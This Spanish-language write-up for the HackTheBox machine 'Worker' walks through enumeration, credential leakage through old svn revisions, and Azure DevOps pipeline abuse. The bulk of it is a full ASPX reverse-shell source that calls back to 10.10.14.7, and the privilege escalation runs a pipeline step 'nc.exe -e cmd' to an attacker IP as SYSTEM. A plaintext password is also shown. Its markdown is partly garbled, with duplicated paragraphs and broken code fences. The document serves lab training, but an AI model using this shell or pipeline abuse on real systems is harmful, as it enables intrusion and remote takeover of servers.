



# Worker {-}

## Introduccion {-}

La maquina del dia 23/08/2021 se llama Worker.

El replay del live se puede ver aqui

[](https://www.youtube.com/watch?v=PEth2wravLQ)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.203
```
ttl: 127 -> maquina Windows

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.203
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.203 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p80,3690,5985 10.10.10.203 -oN targeted
```


| Puerto | Servicio      | Que se nos occure?             | Que falta?   |
| ------ | ------------- | ------------------------------ | ------------ |
| 80     | http          | Web, Fuzzing                   |              |
| 3690   | svnserve      |                                |              |
| 5985   | WinRM         | evil-winrm                     | credenciales |


### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.203
```

Nos enfrentamos a un Microsoft IIS 10.0

### Analyzando svnserve {-}

La primera cosa que hay que hacer es buscar en internet lo que svn es. Tambien vamos buscando si es possible enumerar
un servicio svn.

```bash
which svn
svn -h
svn checkout svn://10.10.10.203
```

Aqui vemos que nos a cargado dos ficheros, como uno de ellos se llama `dimension.worker.htb` pensamos que se esta aplicando virtual hosting. En el 
fichero `moved.txt` vemos a demas otro dominio.
Añadimos al `/etc/hosts` los dominios `worker.htb dimension.worker.htb devops.worker.htb`.

### Analyzando la web con Firefox {-}

Entramos en el panel IIS por defecto. Si lanzamos `http://worker.htb` sigue siendo lo mismo. Si le damos a `http://dimension.worker.htb` entramos
a una nueva web y si vamos al url `http://devops.worker.htb` hay un panel de session.

Aqui necessitamos credenciales, tenemos que volver al analysis de **svnserve** para ver si encontramos mas cosas

### Siguiendo el analysis svnserve {-}

```bash
svn checkout --help
```

Aqui vemos que hay un parametro de revision que por defecto esta a 1, miramos que pasa cuando le damos a 2

```bash
svn checkout -r 2 svn://10.10.10.203
cat deploy.ps1
```

Vemos algo nuevo, un fichero `deploy.ps1` y ya nos lo a descargado. Aqui ya vemos credenciales.

Intentamos connectar con **evil-winrm** pero no podemos. Vamos a por el panel de session de `http://devops.worker.htb` y aqui ya hemos podido
arrancar session. Es un Azure DevOps.

### Vulnerar un Azur DevOps {-}

Si navigamos en la web podemos ver multiples repositorios.


 
Lo que nos llama la atencion aqui es el echo que hay un repositorio llamado dimension, y como existe un dominio `dimension.worker.htb`, pensamos que
los repositorios corresponden a proyectos relacionados con subdominios. Si añadimos el subdominio `alpha.worker.htb` en el `/ect/hosts` y que miramos con
el firefox a esta url vemos el proyecto. 

Si analysamos mas el proyecto, vemos que no podemos alterar el proyecto en la rama Master, y vemos que hay Pipelines que se lanzan automaticamente. Analysando 
el script de la Pipeline, vemos que no esta atada a la rama master.

Creamos una rama al proyecto y le ponemos nuestro codigo malicioso copiada del github de [borjmz aspx reverse shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)


## Vulnerability Assessment {-}


Si navigamos en la web podemos ver multiples repositorios.

```{r, echo = FALSE, fig.cap="Azure DevOps repositories", out.width="90%"}
    knitr::include_graphics("images/Worker-repos.png")
los repositorios corresponden a proyectos relacionados con subdominios. Si añadimos el subdominio `alpha.worker.htb` en el `/ect/hosts` y que miramos con
 
el firefox a esta url vemos el proyecto. 

Si analysamos mas el proyecto, vemos que no podemos alterar el proyecto en la rama Master, y vemos que hay Pipelines que se lanzan automaticamente. Analysando 
el script de la Pipeline, vemos que no esta atada a la rama master.

Creamos una rama al proyecto y le vamos a poner un codigo malicioso.

## Vuln exploit & Gaining Access {-}

### Ganando accesso con Azure DevOps {-}

Una vez la nueva rama creada, le ponemos nuestro codigo malicioso copiada del github de [borjmz aspx reverse shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)

```asp
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Runtime.InteropServices" %>
<%@ Import Namespace="System.Net" %>
<%@ Import Namespace="System.Net.Sockets" %>
<%@ Import Namespace="System.Security.Principal" %>
<%@ Import Namespace="System.Data.SqlClient" %>
<script runat="server">
//Original shell post: https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/
//Download link: https://www.darknet.org.uk/content/files/InsomniaShell.zip
    
	protected void Page_Load(object sender, EventArgs e)
    {
	    String host = "10.10.14.7"; //CHANGE THIS
            int port = 443; ////CHANGE THIS
                
        CallbackShell(host, port);
    }

    [StructLayout(LayoutKind.Sequential)]
    public struct STARTUPINFO
    {
        public int cb;
        public String lpReserved;
        public String lpDesktop;
        public String lpTitle;
        public uint dwX;
        public uint dwY;
        public uint dwXSize;
        public uint dwYSize;
        public uint dwXCountChars;
        public uint dwYCountChars;
        public uint dwFillAttribute;
        public uint dwFlags;
        public short wShowWindow;
        public short cbReserved2;
        public IntPtr lpReserved2;
        public IntPtr hStdInput;
        public IntPtr hStdOutput;
        public IntPtr hStdError;
    }

    [StructLayout(LayoutKind.Sequential)]
    public struct PROCESS_INFORMATION
    {
        public IntPtr hProcess;
        public IntPtr hThread;
        public uint dwProcessId;
        public uint dwThreadId;
    }

    [StructLayout(LayoutKind.Sequential)]
    public struct SECURITY_ATTRIBUTES
    {
        public int Length;
        public IntPtr lpSecurityDescriptor;
        public bool bInheritHandle;
    }
    
    
    [DllImport("kernel32.dll")]
    static extern bool CreateProcess(string lpApplicationName,
       string lpCommandLine, ref SECURITY_ATTRIBUTES lpProcessAttributes,
       ref SECURITY_ATTRIBUTES lpThreadAttributes, bool bInheritHandles,
       uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory,
       [In] ref STARTUPINFO lpStartupInfo,
       out PROCESS_INFORMATION lpProcessInformation);

    public static uint INFINITE = 0xFFFFFFFF;
    
    [DllImport("kernel32", SetLastError = true, ExactSpelling = true)]
    internal static extern Int32 WaitForSingleObject(IntPtr handle, Int32 milliseconds);

    internal struct sockaddr_in
    {
        public short sin_family;
        public short sin_port;
        public int sin_addr;
        public long sin_zero;
    }

    [DllImport("kernel32.dll")]
    static extern IntPtr GetStdHandle(int nStdHandle);

    [DllImport("kernel32.dll")]
    static extern bool SetStdHandle(int nStdHandle, IntPtr hHandle);

    public const int STD_INPUT_HANDLE = -10;
    public const int STD_OUTPUT_HANDLE = -11;
    public const int STD_ERROR_HANDLE = -12;
    
    [DllImport("kernel32")]
    static extern bool AllocConsole();


    [DllImport("WS2_32.dll", CharSet = CharSet.Ansi, SetLastError = true)]
    internal static extern IntPtr WSASocket([In] AddressFamily addressFamily,
                                            [In] SocketType socketType,
                                            [In] ProtocolType protocolType,
                                            [In] IntPtr protocolInfo, 
                                            [In] uint group,
                                            [In] int flags
                                            );

    [DllImport("WS2_32.dll", CharSet = CharSet.Ansi, SetLastError = true)]
    internal static extern int inet_addr([In] string cp);
    [DllImport("ws2_32.dll")]
    private static extern string inet_ntoa(uint ip);

    [DllImport("ws2_32.dll")]
    private static extern uint htonl(uint ip);
    
    [DllImport("ws2_32.dll")]
    private static extern uint ntohl(uint ip);
    
    [DllImport("ws2_32.dll")]
    private static extern ushort htons(ushort ip);
    
    [DllImport("ws2_32.dll")]
    private static extern ushort ntohs(ushort ip);   

    
   [DllImport("WS2_32.dll", CharSet=CharSet.Ansi, SetLastError=true)]
   internal static extern int connect([In] IntPtr socketHandle,[In] ref sockaddr_in socketAddress,[In] int socketAddressSize);

    [DllImport("WS2_32.dll", CharSet = CharSet.Ansi, SetLastError = true)]
   internal static extern int send(
                                [In] IntPtr socketHandle,
                                [In] byte[] pinnedBuffer,
                                [In] int len,
                                [In] SocketFlags socketFlags
                                );

    [DllImport("WS2_32.dll", CharSet = CharSet.Ansi, SetLastError = true)]
   internal static extern int recv(
                                [In] IntPtr socketHandle,
                                [In] IntPtr pinnedBuffer,
                                [In] int len,
                                [In] SocketFlags socketFlags
                                );

    [DllImport("WS2_32.dll", CharSet = CharSet.Ansi, SetLastError = true)]
   internal static extern int closesocket(
                                       [In] IntPtr socketHandle
                                       );

    [DllImport("WS2_32.dll", CharSet = CharSet.Ansi, SetLastError = true)]
   internal static extern IntPtr accept(
                                  [In] IntPtr socketHandle,
                                  [In, Out] ref sockaddr_in socketAddress,
                                  [In, Out] ref int socketAddressSize
                                  );

    [DllImport("WS2_32.dll", CharSet = CharSet.Ansi, SetLastError = true)]
   internal static extern int listen(
                                  [In] IntPtr socketHandle,
                                  [In] int backlog
                                  );

    [DllImport("WS2_32.dll", CharSet = CharSet.Ansi, SetLastError = true)]
   internal static extern int bind(
                                [In] IntPtr socketHandle,
                                [In] ref sockaddr_in  socketAddress,
                                [In] int socketAddressSize
                                );


   public enum TOKEN_INFORMATION_CLASS
   {
       TokenUser = 1,
       TokenGroups,
       TokenPrivileges,
       TokenOwner,
       TokenPrimaryGroup,
       TokenDefaultDacl,
       TokenSource,
       TokenType,
       TokenImpersonationLevel,
       TokenStatistics,
       TokenRestrictedSids,
       TokenSessionId
   }

   [DllImport("advapi32", CharSet = CharSet.Auto)]
   public static extern bool GetTokenInformation(
       IntPtr hToken,
       TOKEN_INFORMATION_CLASS tokenInfoClass,
       IntPtr TokenInformation,
       int tokeInfoLength,
       ref int reqLength);

   public enum TOKEN_TYPE
   {
       TokenPrimary = 1,
       TokenImpersonation
   }

   public enum SECURITY_IMPERSONATION_LEVEL
   {
       SecurityAnonymous,
       SecurityIdentification,
       SecurityImpersonation,
       SecurityDelegation
   }

   
   [DllImport("advapi32.dll", EntryPoint = "CreateProcessAsUser", SetLastError = true, CharSet = CharSet.Ansi, CallingConvention = CallingConvention.StdCall)]
   public extern static bool CreateProcessAsUser(IntPtr hToken, String lpApplicationName, String lpCommandLine, ref SECURITY_ATTRIBUTES lpProcessAttributes,
       ref SECURITY_ATTRIBUTES lpThreadAttributes, bool bInheritHandle, int dwCreationFlags, IntPtr lpEnvironment,
       String lpCurrentDirectory, ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);

   [DllImport("advapi32.dll", EntryPoint = "DuplicateTokenEx")]
   public extern static bool DuplicateTokenEx(IntPtr ExistingTokenHandle, uint dwDesiredAccess,
       ref SECURITY_ATTRIBUTES lpThreadAttributes, SECURITY_IMPERSONATION_LEVEL ImpersonationLeve, TOKEN_TYPE TokenType,
       ref IntPtr DuplicateTokenHandle);

   

   const int ERROR_NO_MORE_ITEMS = 259;

   [StructLayout(LayoutKind.Sequential)]
   struct TOKEN_USER
   {
       public _SID_AND_ATTRIBUTES User;
   }

   [StructLayout(LayoutKind.Sequential)]
   public struct _SID_AND_ATTRIBUTES
   {
       public IntPtr Sid;
       public int Attributes;
   }

   [DllImport("advapi32", CharSet = CharSet.Auto)]
   public extern static bool LookupAccountSid
   (
       [In, MarshalAs(UnmanagedType.LPTStr)] string lpSystemName,
       IntPtr pSid,
       StringBuilder Account,
       ref int cbName,
       StringBuilder DomainName,
       ref int cbDomainName,
       ref int peUse 

   );

   [DllImport("advapi32", CharSet = CharSet.Auto)]
   public extern static bool ConvertSidToStringSid(
       IntPtr pSID,
       [In, Out, MarshalAs(UnmanagedType.LPTStr)] ref string pStringSid);


   [DllImport("kernel32.dll", SetLastError = true)]
   public static extern bool CloseHandle(
       IntPtr hHandle);

   [DllImport("kernel32.dll", SetLastError = true)]
   public static extern IntPtr OpenProcess(ProcessAccessFlags dwDesiredAccess, [MarshalAs(UnmanagedType.Bool)] bool bInheritHandle, uint dwProcessId);
   [Flags]
   public enum ProcessAccessFlags : uint
   {
       All = 0x001F0FFF,
       Terminate = 0x00000001,
       CreateThread = 0x00000002,
       VMOperation = 0x00000008,
       VMRead = 0x00000010,
       VMWrite = 0x00000020,
       DupHandle = 0x00000040,
       SetInformation = 0x00000200,
       QueryInformation = 0x00000400,
       Synchronize = 0x00100000
   }

   [DllImport("kernel32.dll")]
   static extern IntPtr GetCurrentProcess();

   [DllImport("kernel32.dll")]
   extern static IntPtr GetCurrentThread();


   [DllImport("kernel32.dll", SetLastError = true)]
   [return: MarshalAs(UnmanagedType.Bool)]
   static extern bool DuplicateHandle(IntPtr hSourceProcessHandle,
      IntPtr hSourceHandle, IntPtr hTargetProcessHandle, out IntPtr lpTargetHandle,
      uint dwDesiredAccess, [MarshalAs(UnmanagedType.Bool)] bool bInheritHandle, uint dwOptions);

    [DllImport("psapi.dll", SetLastError = true)]
    public static extern bool EnumProcessModules(IntPtr hProcess,
    [MarshalAs(UnmanagedType.LPArray, ArraySubType = UnmanagedType.U4)] [In][Out] uint[] lphModule,
    uint cb,
    [MarshalAs(UnmanagedType.U4)] out uint lpcbNeeded);

    [DllImport("psapi.dll")]
    static extern uint GetModuleBaseName(IntPtr hProcess, uint hModule, StringBuilder lpBaseName, uint nSize);

    public const uint PIPE_ACCESS_OUTBOUND = 0x00000002;
    public const uint PIPE_ACCESS_DUPLEX = 0x00000003;
    public const uint PIPE_ACCESS_INBOUND = 0x00000001;
    public const uint PIPE_WAIT = 0x00000000;
    public const uint PIPE_NOWAIT = 0x00000001;
    public const uint PIPE_READMODE_BYTE = 0x00000000;
    public const uint PIPE_READMODE_MESSAGE = 0x00000002;
    public const uint PIPE_TYPE_BYTE = 0x00000000;
    public const uint PIPE_TYPE_MESSAGE = 0x00000004;
    public const uint PIPE_CLIENT_END = 0x00000000;
    public const uint PIPE_SERVER_END = 0x00000001;
    public const uint PIPE_UNLIMITED_INSTANCES = 255;

    public const uint NMPWAIT_WAIT_FOREVER = 0xffffffff;
    public const uint NMPWAIT_NOWAIT = 0x00000001;
    public const uint NMPWAIT_USE_DEFAULT_WAIT = 0x00000000;

    public const uint GENERIC_READ = (0x80000000);
    public const uint GENERIC_WRITE = (0x40000000);
    public const uint GENERIC_EXECUTE = (0x20000000);
    public const uint GENERIC_ALL = (0x10000000);

    public const uint CREATE_NEW = 1;
    public const uint CREATE_ALWAYS = 2;
    public const uint OPEN_EXISTING = 3;
    public const uint OPEN_ALWAYS = 4;
    public const uint TRUNCATE_EXISTING = 5;

    public const int INVALID_HANDLE_VALUE = -1;

    public const ulong ERROR_SUCCESS = 0;
    public const ulong ERROR_CANNOT_CONNECT_TO_PIPE = 2;
    public const ulong ERROR_PIPE_BUSY = 231;
    public const ulong ERROR_NO_DATA = 232;
    public const ulong ERROR_PIPE_NOT_CONNECTED = 233;
    public const ulong ERROR_MORE_DATA = 234;
    public const ulong ERROR_PIPE_CONNECTED = 535;
    public const ulong ERROR_PIPE_LISTENING = 536;

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr CreateNamedPipe(
        String lpName,									
        uint dwOpenMode,								
        uint dwPipeMode,								
        uint nMaxInstances,							
        uint nOutBufferSize,						
        uint nInBufferSize,							
        uint nDefaultTimeOut,						
        IntPtr pipeSecurityDescriptor
        );

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool ConnectNamedPipe(
        IntPtr hHandle,
        uint lpOverlapped
        );

    [DllImport("Advapi32.dll", SetLastError = true)]
    public static extern bool ImpersonateNamedPipeClient(
        IntPtr hHandle);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool GetNamedPipeHandleState(
        IntPtr hHandle,
        IntPtr lpState,
        IntPtr lpCurInstances,
        IntPtr lpMaxCollectionCount,
        IntPtr lpCollectDataTimeout,
        StringBuilder lpUserName,
        int nMaxUserNameSize
        );
 
    protected void CallbackShell(string server, int port)
    {

        string request = "Spawn Shell...\n";
        Byte[] bytesSent = Encoding.ASCII.GetBytes(request);

        IntPtr oursocket = IntPtr.Zero;
        
        sockaddr_in socketinfo;
        oursocket = WSASocket(AddressFamily.InterNetwork,SocketType.Stream,ProtocolType.IP, IntPtr.Zero, 0, 0);
        socketinfo = new sockaddr_in();
        socketinfo.sin_family = (short) AddressFamily.InterNetwork;
        socketinfo.sin_addr = inet_addr(server);
        socketinfo.sin_port = (short) htons((ushort)port);
        connect(oursocket, ref socketinfo, Marshal.SizeOf(socketinfo));
        send(oursocket, bytesSent, request.Length, 0);
        SpawnProcessAsPriv(oursocket);
        closesocket(oursocket);
    }

    protected void SpawnProcess(IntPtr oursocket)
    {
        bool retValue;
        string Application = Environment.GetEnvironmentVariable("comspec"); 
        PROCESS_INFORMATION pInfo = new PROCESS_INFORMATION();
        STARTUPINFO sInfo = new STARTUPINFO();
        SECURITY_ATTRIBUTES pSec = new SECURITY_ATTRIBUTES();
        pSec.Length = Marshal.SizeOf(pSec);
        sInfo.dwFlags = 0x00000101;
        sInfo.hStdInput = oursocket;
        sInfo.hStdOutput = oursocket;
        sInfo.hStdError = oursocket;
        retValue = CreateProcess(Application, "", ref pSec, ref pSec, true, 0, IntPtr.Zero, null, ref sInfo, out pInfo);
        WaitForSingleObject(pInfo.hProcess, (int)INFINITE);
    }

    protected void SpawnProcessAsPriv(IntPtr oursocket)
    {
        bool retValue;
        string Application = Environment.GetEnvironmentVariable("comspec"); 
        PROCESS_INFORMATION pInfo = new PROCESS_INFORMATION();
        STARTUPINFO sInfo = new STARTUPINFO();
        SECURITY_ATTRIBUTES pSec = new SECURITY_ATTRIBUTES();
        pSec.Length = Marshal.SizeOf(pSec);
        sInfo.dwFlags = 0x00000101; 
        IntPtr DupeToken = new IntPtr(0);
        sInfo.hStdInput = oursocket;
        sInfo.hStdOutput = oursocket;
        sInfo.hStdError = oursocket;
        if (DupeToken == IntPtr.Zero)
            retValue = CreateProcess(Application, "", ref pSec, ref pSec, true, 0, IntPtr.Zero, null, ref sInfo, out pInfo);
        else
            retValue = CreateProcessAsUser(DupeToken, Application, "", ref pSec, ref pSec, true, 0, IntPtr.Zero, null, ref sInfo, out pInfo);
        WaitForSingleObject(pInfo.hProcess, (int)INFINITE);
        CloseHandle(DupeToken);
    }
    </script>
```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Subimos el fichero al proyecto a la rama creada

1. Intentamos ir a la url `http://alpha.worker.htb/shell.aspx`

Aqui vemos un **404**. Quiere decir que vamos a tener que hacer una pull request. Pinchamos a crear una solicitud de incorporacion de cambio.
Una vez esto echo vemos que podemos Establecer autocomplecion y que podemos aprovar el cambio. Esto quiere decir que tenemos el permisso de 
acceptar pull requests.

Si vamos otra vez a `http://alpha.worker.htb/shell.aspx` vemos que todavia no esta este fichero. Parece ser que la Pipeline no se lanza automaticamente
y que tenemos que ejecutarla manualmente.

Si pinchamos en el menu Pipline y que seleccionamos la **Alpha-CI** y le damos a **Ejecutar** y compilamos la rama creada.

ya hemos ganado accesso a la maquina victima.

```bash
whoami

iis apppoo\defaultapppool
```

Vemos que no podemos leer la flag porque no tenemos suficientes derechos.

```bash
whoami /priv
```

Aqui vemos que el `SeImpersonatePrivilege` esta activado y que podriamos passar por hay pero en este caso vamos a continuar por la via normal.

### User pivoting {-}

Si recordamos, cuando hemos analyzado habia una unidad logica `w:\`. Vamos a ver si podemos movernos por hay.

```bash
w:\
dir
```

Si miramos los recursos, hay uno interesante en `w:\svnrepos\www\conf\passwd` que contiene una serie de usuarios y contraseñas. Entre ellos
`robisl` que es un usuario del systema.

```bash
dir C:\Users
net user robisl
```

Vemos que el usuario esta en el grupo `Remote Management Use` que nos permitiria connectar via **Evil-WinRM**.

```bash
evil-winrm -i 10.10.10.203 -u 'robisl' -p 'wolves11'
```

Ya podemos visualizar la flag.

## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
whoami /priv
```

Aqui vemos que tenemos menos privilegios que el usuario `iis apppoo\defaultapppool`. Pero si volvemos a la web
`http://devops.worker.htb` y que nos connectamos con este usuario, vemos que hay un proyecto.

Si pinchamos a configuration del proyecto y le damos a seguridad, vemos que el usuario es parte de grupo `Build Administrator`. Este
grupo permite enviar commandos como **nt authority system**.

1. Checkeamos el agente a utilizar

    ```{r, echo = FALSE, fig.cap="Azure DevOps agente Setup", out.width="80%"}
    knitr::include_graphics("images/Worker-grupos-agentes.png")
    ```

    knitr::include_graphics("images/Worker-nueva-canalizacion.png")
 
    ```

1. Codigo en Azure repo


 
1. Seleccionamos el proyecto existente
1. Configuramos la canalizacion con Canalizacion inicial

    ```{r, echo = FALSE, fig.cap="Azure DevOps canalizacion inicial", out.width="80%"}

 
1. Creamos el script pipeline para hacer un whoami

    ```{r, echo = FALSE, fig.cap="Azure DevOps pipeline whoami", out.width="80%"}
    knitr::include_graphics("images/Worker-whoami-pipeline.png")
    ```
    ```{r, echo = FALSE, fig.cap="Azure DevOps guardar pipeline", out.width="80%"}
 
    knitr::include_graphics("images/Worker-guardar-ejecutar.png")
    ```

1. Miramos el resultado 


 
Aqui comprobamos que script esta lanzado por `nt authority\system`

1. Uploadeamos un netcat a la maquina victima
    
    ```
 

1. Desde evil-winrm, uploadeamos el fichero

    ```bash
    upload nc.exe
 
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Editamos el pipeline script

    ```yaml
    trigger:
    - master

    pool: 'Setup'

    steps:
    - script: echo Hello, world!
      displayName 'Run a one-line script'

    - script: C:\Windows\Temp\Privesc\nc.exe -e cmd 10.10.14.10 443
      displayName: 'Run a multi-line script'
    ```

1. Le damos a ejecutar

```bash
whoami

nt authority\system
```

Ya podemos leer la flag.
